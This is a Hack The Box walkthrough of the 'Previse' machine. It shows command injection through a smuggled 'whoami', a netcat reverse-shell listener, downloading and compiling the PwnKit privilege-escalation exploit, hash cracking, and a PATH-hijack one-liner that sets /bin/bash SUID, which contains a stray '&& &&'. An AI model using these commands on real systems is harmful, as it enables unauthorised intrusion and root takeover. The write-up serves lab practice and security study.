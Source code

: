 ```yaml
---
layout: single
title: Previse  - Hack The Box
excerpt: "Previse is a easy machine that showcases Execution After Redirect (EAR) which allows users to retrieve the contents and make requests to `accounts.php` whilst unauthenticated which leads to abusing PHP 'exec()' function since user inputs are not sanitized allowing remote code execution against the target, after gaining a www-data shell privilege escalation starts with the retrieval and cracking of a custom MD5Crypt hash which consists of a unicode salt and once cracked allows users to gain SSH access to the target then abusing a sudo executable script which does not include absolute paths of the functions it utilises which allows users to perform PATH hijacking on the target to compromise the machine."
date: 2025-06-03
classes: wide
header:
  teaser: /img2/previse.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Web Enumeration
  - Execution After Redirect (EAR) Vulnerability - Skipping Redirects
  - PHP Source Code Analysis
  - Command Injection (RCE)
  - Information Leakage
  - Database Enumeration
  - Cracking Hashes
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - Abusing Sudoers Privilege + PATH Hijacking [Privilege Escalation] (OPTION 2)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.104
```

![](/img2/Pasted%20image%2020250603093249.png)

- Dirsearch

```bash
dirsearch -u 10.10.11.104
```

![](/img2/Pasted%20image%2020250603100111.png)

- Intercept accounts.php request and check it

![](/img2/Pasted%20image%2020250603100247.png)

> Before redirection, we can do a request to accounts.php, so let's create a valid request with POST method.

## Exploitation

- Execution After Redirect (EAR) Vulnerability - Skipping Redirects

![](/img2/Pasted%20image%2020250603100445.png)

- Download backup zip

![](/img2/Pasted%20image%2020250603100646.png)

- Check php source code

![](/img2/Pasted%20image%2020250603112333.png)

> In logs.php we can try to inject command when python execute /opt/scripts/log_process.py.

```bash
/usr/bin/python /opt/scripts/log_process.py space;whoami
```

- RCE

![](/img2/Pasted%20image%2020250603112629.png)

```bash
tcpdump -i tun0 icmp
```

![](/img2/Pasted%20image%2020250603112831.png)

- Reverse shell

![](/img2/Pasted%20image%2020250603113153.png)

```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find sudoers 

```bash
find / -perm -4000 2>/dev/null
```

![](/img2/Pasted%20image%2020250603124208.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Connect to database with leaked credentials

![](/img2/Pasted%20image%2020250603114431.png)

> We can see the password and database inside config.php on backup folder

```bash
mysql -u root -p
```

- Crack MD5 hash

![](/img2/Pasted%20image%2020250603122541.png)

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250603122614.png)

- Connect to ssh

```bash
ssh m4lwhere@10.10.11.104
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250603122903.png)

- PATH Hijacking

```bash
cat /opt/scripts/access_backup.sh
```

![](/img2/Pasted%20image%2020250603123315.png)

```bash
cd /tmp && export PATH=/tmp/:$PATH && echo "chmod u+s /bin/bash" > gzip && chmod +x gzip && && sudo /opt/scripts/access_backup.sh
```

```bash
ls -l /bin/bash
```

![](/img2/Pasted%20image%2020250603123632.png)

```bash
bash -p
```


![](/img2/Pasted%20image%2020250603123055.png)